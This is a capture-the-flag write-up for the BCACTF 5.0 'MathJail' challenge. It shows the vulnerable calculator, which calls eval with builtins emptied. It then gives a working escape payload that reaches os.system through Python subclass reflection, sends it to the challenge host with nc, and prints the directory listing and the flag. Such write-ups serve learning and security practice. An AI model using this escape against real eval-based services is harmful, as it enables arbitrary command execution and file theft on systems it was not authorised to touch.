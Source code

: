 # BCACTF 5.0

## MathJail

> Just a fun python calculator! Good for math class.
> 
> Author: Zevi
> 
> [`pycalculator.py`](pycalculator.py)

Tags: _misc_

## Solution
The challenge is another variant of a python jail. Our input is put through `eval` with `builtins` disabled.

```python
print("Welcome to your friendly python calculator!")
equation = input("Enter your equation below and I will give you the answer:\n")
while equation!="e":
    answer = eval(equation, {"__builtins__":{}},{})
    print(f"Here is your answer: {answer}")
    equation = input("Enter your next equation below (type 'e' to exit):\n")
print("Goodbye!")
```

This can easily be bypassed by using pythons reflection functionality. The following payload allows executing system commands.

```python
echo "[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == 'BuiltinImporter'][0].load_module('os').system('ls')"
```

Doing this we find the `flag.txt` is in the current folder.

```bash
$ echo "[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == 'BuiltinImporter'][0].load_module('os').system('ls')" | nc challs.bcactf.com 31289
Welcome to your friendly python calculator!
Enter your equation below and I will give you the answer:
flag.txt
pycalculator.py
ynetd
ynetd.c
Here is your answer: 0
Enter your next equation below (type 'e' to exit):
```

Now we only have to read it.

```bash
$ echo "[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == 'BuiltinImporter'][0].load_module('os').system('cat flag.txt')" | nc challs.bcactf.com 31289
Welcome to your friendly python calculator!
Enter your equation below and I will give you the answer:
bcactf{math_is_so_difficult_right?8943yfg09whgh3r89ghwerp}Here is your answer: 0
Enter your next equation below (type 'e' to exit):
```

Flag `bcactf{math_is_so_difficult_right?8943yfg09whgh3r89ghwerp}`